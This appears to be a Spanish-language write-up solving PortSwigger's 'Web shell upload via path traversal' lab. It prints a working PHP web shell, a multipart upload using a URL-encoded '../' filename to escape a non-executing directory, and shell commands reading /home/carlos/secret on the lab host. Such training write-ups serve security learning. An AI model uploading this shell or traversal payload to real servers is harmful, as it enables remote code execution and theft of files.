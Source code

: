 ```yaml
---
title: "File Upload Vulnerabilities Lab 3"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via path traversal
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Web shell upload via path traversal

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, el servidor está configurado para `prevenir` la `ejecución` de `archivos` proporcionados por el usuario, pero esta restricción puede ser eludida explotando un `path traversal`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_5.png)

Si accedemos a `https://0af3002604e2eaaa825ad87900e80024.web-security-academy.net/files/avatars/shell.php` vemos que `no` se está `interpretando`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_6.png)

Al parecer los archivos `php` de este directorio `no` se `interpretan`, lo que debemos hacer es `subir` el `archivo` nuevamente y `capturar` la `petición` con `Burpsuite`. Una vez hecho esto vamos a efectuar un path traversal `filename="%2e%2e%2fshell.php"`, este payload es `../shell.php` pero tenemos que `url encodearlo` porque nos elimina el `../`

```
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fshell.php"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Si accedemos a `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=whoami` veremos que hemos logrado un `RCE (Remote Code Execution)` debido a que el `path traversal` ha sido exitoso y el directorio `/files` no tenía `ninguna restricción` a la hora de `interpretar` archivo `php`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_7.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_8.png)

Obtenemos el contenido del archivo secret `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_9.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_10.png)
